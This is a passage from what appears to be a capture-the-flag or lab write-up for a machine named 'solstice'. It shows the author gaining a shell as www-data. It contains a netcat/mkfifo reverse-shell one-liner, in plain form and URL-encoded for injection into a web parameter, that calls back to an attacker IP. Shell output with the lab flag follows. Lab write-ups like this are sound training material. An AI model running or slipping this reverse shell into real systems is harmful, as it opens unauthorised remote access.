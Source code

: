 ![2](screenshots/2.png)

I replaced this command with the following urlencoded (special characters included) reverse shell:

Original: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 192.168.45.5 443 >/tmp/f`
Urlencode: `rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%20192.168.45.5%20443%20%3E%2Ftmp%2Ff`

I get a shell as www-data and collect `local.txt`:

```bash
www-data@solstice:~$ ls -la
total 16
drwxr-xr-x  3 root     root     4096 Aug 13  2020 .
drwxr-xr-x 12 root     root     4096 Jun 13  2020 ..
drwxr-xr-x  6 www-data www-data 4096 Jun 25  2020 html
-rw-r--r--  1 www-data www-data   33 Mar 10 13:38 local.txt
www-data@solstice:~$ cat local.txt
b2dd63631e93577f16b0c82f4f9e25e6
www-data@solstice:~$ whoami
www-data
www-data@solstice:~$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@solstice:~$ hostname
solstice
www-data@solstice:~$ hostname -I
192.168.238.72
```
![3](screenshots/3.png)
